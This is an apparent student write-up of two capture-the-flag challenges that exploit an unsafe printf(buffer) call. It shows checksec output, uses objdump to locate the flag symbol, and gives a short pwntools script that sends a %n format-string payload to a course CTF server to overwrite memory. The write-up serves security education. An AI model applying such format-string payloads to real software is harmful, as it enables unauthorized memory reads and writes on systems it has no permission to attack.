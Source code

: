 ## CTF 1

We verified the protections of the given program:

```sh
$ checksec program
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

We loocked for other vulnerabilities. 
And found the following line of code:

```c
printf(buffer);
```

We see that *buffer*, is in stringthe format  of printf, it can be exploited even more since it is a global variable we just need
to put the address of where this flag is stored at the top of the stack and
then use "%s" in the format string to read it.

```sh
$ objdump -t program | grep flag
0804c060 g     O .bss    00000028    flag
```

Not that we have the address to read, just need to write the script.

![1](images/CTF7.1.PNG)
![2](images/CTF7.2.PNG)
![3](images/CTF7.3.PNG)

And we get the flag!

## CTF 2

We verified the protections of the given program:

```sh
$ checksec program
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

And its similar to the last CTF

```c
printf(buffer);
```

Instead of reading from the address like we did in the previous CTF, we
need to print 0xbeef (or 48879) bytes before it.

![4](images/CTF7.4.PNG)
![5](images/CTF7.5.PNG)
![6](images/CTF7.6.PNG)
```python
from pwn import *
p = remote("ctf-fsi.fe.up.pt", 4005)
p.recvuntil(b"...")
p.sendline(b"AAAA\x34\xC0\x04\x08%.48871x%n")
p.interactive()
```

